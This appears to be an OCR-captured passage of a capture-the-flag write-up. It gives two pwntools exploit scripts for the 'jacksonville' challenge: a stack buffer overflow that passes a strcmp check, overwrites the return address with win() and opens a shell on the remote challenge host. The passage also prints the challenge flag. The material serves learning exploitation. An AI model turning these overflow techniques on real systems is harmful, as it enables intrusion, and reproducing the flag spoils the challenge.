 ```python
        rop.ret.address,             # Saved RBP (any value, using ret)
        elf.sym["win"],              # Return address
    )
    
    print(f"[*] Payload length: {len(payload)} bytes")
    print(f"[*] Win function: {hex(elf.sym['win'])}")
    
    # Send exploit
    p.sendlineafter(b"> ", payload)
    
    # Get shell
    p.interactive()

if __name__ == "__main__":
    main()

# Flag: sun{It4chI_b3ats_0b!to_nO_d!ff}
```

### Solution 2: Manual Addresses

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./jacksonville")
context.binary = elf
context(arch="amd64", os="linux", log_level="info")

# Connect
p = remote("chal.sunshinectf.games", 25602)
# p = process(["./jacksonville"])  # For local testing

# Addresses
win_addr = elf.symbols["win"]    # 0x4011f6

# Build payload
payload = b"A" * 6              # Padding (ignored by strcmp)
payload += b"Jaguars\x00"       # Pass strcmp check at offset 6
payload += b"A" * 90            # Fill rest of buffer
payload += p64(0)               # Saved RBP (any value, we use 0)
payload += p64(win_addr)        # Return address → win()

print(f"[*] Payload length: {len(payload)} bytes")
print(f"[*] Win address: {hex(win_addr)}")

# Send exploit
p.sendlineafter(b"> ", payload)

# Get shell!
print("[+] Shell should spawn!")
p.interactive()

# Flag: sun{It4chI_b3ats_0b!to_nO_d!ff}
```

